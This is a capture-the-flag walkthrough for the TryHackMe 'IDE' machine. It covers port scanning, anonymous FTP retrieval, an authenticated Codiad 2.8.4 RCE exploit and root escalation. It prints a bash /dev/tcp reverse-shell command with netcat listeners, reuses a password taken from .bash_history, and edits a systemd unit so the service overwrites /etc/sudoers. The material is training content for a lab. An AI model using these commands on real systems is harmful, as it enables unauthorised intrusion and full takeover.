

| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/ide)  | Easy  |  [bluestorm](https://tryhackme.com/p/bluestorm) and [403Exploit](https://tryhackme.com/p/403Exploit)  |


## Reconn

Hey! Welcome back!
As you may know, we start the CTFs with an `nmap` scan, so let's do the same with this one!

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.233.193 -p- -sS --min-rate 5000 -n -Pn
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 00:11 CEST
Nmap scan report for 10.10.233.193
Host is up (0.056s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds
```
Great! We now have more information:
    · We have an FTP server running at port `21`.
    · An SSH service running on port `22`.
    · A web server on port `80`.
    · An unknown service running on `62337`.

Alright, let's try to download all the data that we can from the `FTP` server with the user `anonymous` (If you didn't know the user `anonymous` it's a default account that doesn't require a password to login on the `FTP` server).
```bash
╰─ lanfran@parrot ❯ wget -m ftp://anonymous@10.10.78.174
--2021-10-16 00:18:16--  ftp://anonymous@10.10.78.174/
           => ‘10.10.78.174/.listing’
Connecting to 10.10.78.174:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> PASV ... done.    ==> LIST ... done.

10.10.78.174/.listing                 [ <=>                                                        ]     180  --.-KB/s    in 0s      

2021-10-16 00:18:16 (6.37 MB/s) - ‘10.10.78.174/.listing’ saved [180]

--2021-10-16 00:18:16--  ftp://anonymous@10.10.78.174/.../
           => ‘10.10.78.174/.../.listing’
==> CWD (1) /... ... done.
==> PASV ... done.    ==> LIST ... done.

10.10.78.174/.../.listing             [ <=>                                                        ]     178  --.-KB/s    in 0s      

2021-10-16 00:18:17 (3.11 MB/s) - ‘10.10.78.174/.../.listing’ saved [178]

--2021-10-16 00:18:17--  ftp://anonymous@10.10.78.174/.../-
           => ‘10.10.78.174/.../-’
==> CWD not required.
==> PASV ... done.    ==> RETR - ... done.
Length: 151

10.10.78.174/.../-                100%[===========================================================>]     151  --.-KB/s    in 0.1s    

2021-10-16 00:18:17 (1.15 KB/s) - ‘10.10.78.174/.../-’ saved [151]

FINISHED --2021-10-16 00:18:17--
Total wall clock time: 1.5s
Downloaded: 3 files, 509 in 0.1s (3.88 KB/s)
```
Wow! We have some weird names for the folder and the file...

So let's try to rename the `-` file to a more friendly name and see what it has inside!
```bash
╰─ lanfran@parrot ❯ mv \- data

╰─ lanfran@parrot ❯ cat data
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
Mmmm.... we know now that the user `john` has his password reseted to the default one...

Let's see what's on port `80` and port `62337`.



After some research, the port `80` has just a default apache2 web server running, the insterest web page is on port `62337`.

We have a login page for `Codiad`, a web based IDE! And we also know that the version is `2.8.4`!

## Foothold - User

So, after googling something easy as `Codiad 2.8.4 exploit`, I found a public exploit to get RCE with an authenticated user! [Here's the link to the exploit]()

So far so good, let's run the exploit!

```bash
╰─ lanfran@parrot ❯ python3 exp.py http://10.10.233.193:62337/ john [REDACTED] 10.9.4.36 1337 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.9.4.36/1338 0>&1 2>&1"' | nc -lnvp 1337
nc -lnvp 1338
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y  
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
```
After running the commands that the exploit suggest, we finally have a foothold on the machine!
```bash
╰─ lanfran@parrot ❯ nc -lnvp 1338
listening on [any] 1338 ...
connect to [10.9.4.36] from (UNKNOWN) [10.10.233.193] 46490
bash: cannot set terminal process group (866): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
But... We can't read the user flag, because we need to escalate to user `drac` to read the flag...

So digging around the machine, we find that the user `drac` has the `.bash_history` with some information inside!
```bash
www-data@ide:/home/drac$ cat .bash_history 
mysql -u drac -p '[REDACTED]'
```
Hey! We found a password! Maybe this user reutilize the password...
```bash
www-data@ide:/home/drac$ su drac 
Password: 
drac@ide:~$ cat /home/drac/user.txt 
0[REDACTED]6
```
YES! We did it!

## Root

Now we need to escalate to root!

For this, we do the first try as in every machine `sudo -l`, and we can restart the `vsftpd` service!
```bash
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
So maybe we can exploit this service if we can edit the `vsftpd.service` file!

And yes! We can edit it!
```bash
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
drac@ide:~$ nano /lib/systemd/system/vsftpd.service
drac@ide:~$
```
So let's edit it to execute a command:
`ExecStart=/bin/sh -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'`


This command will add our user `drac` into the `sudoers` file to run all the commands as `root`!

So after editing the file, it should look like this:
```bash
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/sh -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```
Great! Let's restart the service and reload the units:
```bash
drac@ide:~$ sudo /usr/sbin/service vsftpd restart
Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.
drac@ide:~$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
drac@ide:~$ sudo /usr/sbin/service vsftpd restart
```
After this, we can check if our exploit worked!

YES! We can now run `sudo` to everything!
```bash
drac@ide:~$ sudo -l
User drac may run the following commands on ide:
    (root) NOPASSWD: ALL
```
So let's just run `sudo su` to get `root`
```bash
drac@ide:~$ sudo su
root@ide:/home/drac# id
uid=0(root) gid=0(root) groups=0(root)
root@ide:/home/drac# cat /root/root.txt 
c[REDACTED]d
```

And we rooted the machine!

That's all from my side, hope you find this helpful!